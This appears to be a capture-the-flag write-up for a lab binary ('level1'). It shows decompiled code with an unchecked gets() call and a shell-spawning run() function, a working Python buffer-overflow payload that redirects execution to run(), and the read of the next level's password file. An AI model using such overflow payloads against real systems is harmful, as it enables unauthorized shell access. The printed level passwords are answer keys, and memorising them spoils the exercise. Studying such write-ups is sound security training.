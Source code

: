 # Level 1
*password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a*

## Analyze

```
$ ls
level1
$ ./level1

```

```
scp -P 4242 level1@192.168.56.108:level1 binary/
```

```
void main(void)

{
  undefined local_50 [76];
  
  gets(local_50);
  return;
}
```
`gets` : reads a line from stdin

```
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

## Buffer overflow

objective : execute `run()` function.

```
(gdb) info funct run
...
0x08048444  run
...
```

`run` address : 0x08048444

```
$ python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
$ cat /tmp/level1 - | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

